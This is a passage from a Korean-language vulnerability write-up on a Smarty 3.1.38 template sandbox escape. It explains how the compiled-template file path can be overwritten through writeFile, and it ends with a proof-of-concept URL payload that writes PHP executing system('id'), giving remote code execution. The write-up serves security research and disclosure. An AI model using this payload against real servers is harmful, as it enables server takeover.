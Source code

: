 앞서 **Vulnerability Analysis**에서 설명한 방법을 통해 `smarty` 속성에 접근할 수 있고, 이를 `Smarty_Internal_Runtime_WriteFile::writeFile` 의 세번째 인자로 넘겨 디스크에 임의 파일을 쓸 수 있습니다. [James Kettle](https://skeletonscribe.net/)이 2015년에 [수행한 것](https://youtu.be/3cT0uE7Y87s)과 같은 기법입니다.

대상 파일 시스템의 임의 파일에 쓸 권한을 가진다는 건 '거의' 공격에 성공했다고 볼 수 있지만 완전히 확신할 수는 없습니다. 웹 루트에 쓰기 가능한 디렉토리가 존재하지 않을 수 있고, .htaccess 가 백도어 접근을 차단하는 등 다양한 환경이 존재합니다. 환경에 구애받지 않고 어떤 조건에서든 공격에 성공하기 위해선 뭔가가 더 필요합니다.

`string:` 리소스를 사용하면 `Smarty_Template_Compiled` 클래스의 `[process` 메소드](https://github.com/smarty-php/smarty/blob/v3.1.38/libs/sysplugins/smarty_template_compiled.php#L131)가 호출되고, 이는 컴파일된 템플릿 파일을 include 합니다.

```php
public function process(Smarty_Internal_Template $_smarty_tpl)
{
    $source = &$_smarty_tpl->source;
    $smarty = &$_smarty_tpl->smarty;
    if ($source->handler->recompiled) {
        $source->handler->process($_smarty_tpl);
    } elseif (!$source->handler->uncompiled) {
        if (!$this->exists || $smarty->force_compile
            || ($_smarty_tpl->compile_check && $source->getTimeStamp() > $this->getTimeStamp())
        ) {
            $this->compileTemplateSource($_smarty_tpl);
            $compileCheck = $_smarty_tpl->compile_check;
            $_smarty_tpl->compile_check = Smarty::COMPILECHECK_OFF;
            $this->loadCompiledTemplate($_smarty_tpl);
            $_smarty_tpl->compile_check = $compileCheck;
        } else {
            $_smarty_tpl->mustCompile = true;
            @include $this->filepath;  // filepath가 가리키는 파일(컴파일된 템플릿 파일)을 include
...
```

상기 **Vulnerability Analysis**에 서술된 방식으로 `Smarty_Template_Compiled` 클래스의 `filepath` 속성에 동적으로 접근할 수 있고(`$smarty.template_object->compiled->filepath`), `Smarty_Internal_Runtime_WriteFile::writeFile` 메소드의 첫번째 인자로 넘겨 해당 경로의 파일에 임의로 쓸 수 있습니다. 즉, 컴파일된 템플릿 파일에 원하는 내용을 써 웹 페이지에서 변경된 내용으로 인식하게 할 수 있습니다.

플랫폼과 상관없이 컴파일된 템플릿 파일은 항상 쓰기 가능하기 때문에 어떤 환경에서든 가능한 방법입니다.

### Proof of Concept

위에서 설명한 **Default Sandbox**로 웹 페이지를 띄운 후 아래 주소로 두 번 접속합니다.

```
http://localhost:8000/page.php?poc=string:{$s=$smarty.template_object->smarty}{$fp=$smarty.template_object->compiled->filepath}{Smarty_Internal_Runtime_WriteFile::writeFile($fp,"<?php+system('id');",$s)}
```

![/assets/2021-07-01/smarty_3.png](/assets/2021-07-01/smarty_3.png)
